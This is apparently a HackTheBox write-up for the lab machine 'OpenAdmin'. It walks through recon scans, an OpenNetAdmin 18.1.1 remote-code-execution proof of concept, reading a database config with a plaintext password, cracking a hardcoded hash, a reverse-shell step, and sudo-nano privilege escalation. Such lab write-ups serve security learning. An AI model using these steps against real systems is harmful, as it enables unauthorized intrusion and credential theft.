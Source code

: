 ```yaml
---
title: OpenAdmin
date: 2022-06-16 
categories: [HackTheBox, Easy]
tags: [writeup, linux]     # TAG names should always be lowercase
author: Derrick
---
```


![](https://i.imgur.com/9FXiUJm.png)

For an easy box, this box is considerably long. This box required hunting for credentials all over the place but in the end, the privesc to root was somewhat disappointing. There seems to be a reoccuring trend that these old boxes involve little to no post-exploitation. Many of the times `sudo -l` pretty much gives you the answer. Regardless, this box is pretty fun to enumerate for those credentials.

## Recon
---
`nmap -sVC 10.10.10.171`
```                 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-16 04:01 EDT
Nmap scan report for openadmin.htb (10.10.10.171)
Host is up (0.087s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.55 seconds
```
Looks like we have a website as per usual
![](https://i.imgur.com/fN14SJv.png)


Default page. Use gobuster to reveal any additional directories.
`gobuster dir -u http://10.10.10.171 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -t 50 `
``` 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.171
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/16 04:02:39 Starting gobuster in directory enumeration mode
===============================================================
/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]
/sierra               (Status: 301) [Size: 313] [--> http://10.10.10.171/sierra/]
```
![](https://i.imgur.com/gv65boy.png)
There are several sites but only music led me somewhere interesting. The login page links to an ONA page.

## Foothold
---
![](https://i.imgur.com/suzxBHl.png)

ONA version 18.1.1 is vulnerable to RCE to lets use the poc.

`python3 exploit.py exploit http://10.10.10.171/ona/`
```
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ 
```

## User
---
Since we have an apache site, lets check over the sites enabled n such. I found this which is interesting.

`cat /etc/apache2/sites-enabled/internal.conf`
```console              
Listen 127.0.0.1:52846  

<VirtualHost 127.0.0.1:52846>                      
    ServerName internal.openadmin.htb 
    
    DocumentRoot /var/www/internal
    
<IfModule mpm_itk_module>                    
AssignUserID joanna joanna                    
</IfModule>                    

    ErrorLog ${APACHE_LOG_DIR}/error.log 
    CustomLog ${APACHE_LOG_DIR}/access.log combined  
    
</VirtualHost>
```
A locally hosted vhost on port 52846.

Double checking with `netstat -tulpn`
```
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                         
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -  
```
Confirmed we have a listening port.

Inside the ona database we find some credentials
`cat local/config/database_settings.inc.php`
```php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?
```
We have jimmy

``cat /var/www/internal/index.php`
```php
if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
```

We also have these hardcoded credentials. Crack and probably use it somewhere.

Password from cracking the hash:

jimmy:Revealed    

This is for the internal webserver. Logging in executes a command set in from the main.php file under the webroot. We can rewrite it and grab a reverse shell instead. We have user :)

## Root
---
`sudo -l` reveals that joanna is able to use nano. [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#sudo). Being able to run nano with sudo spawns a shell with root level priviliges. Just follow the commands as detailed from GTFOBins and this box is pwned :)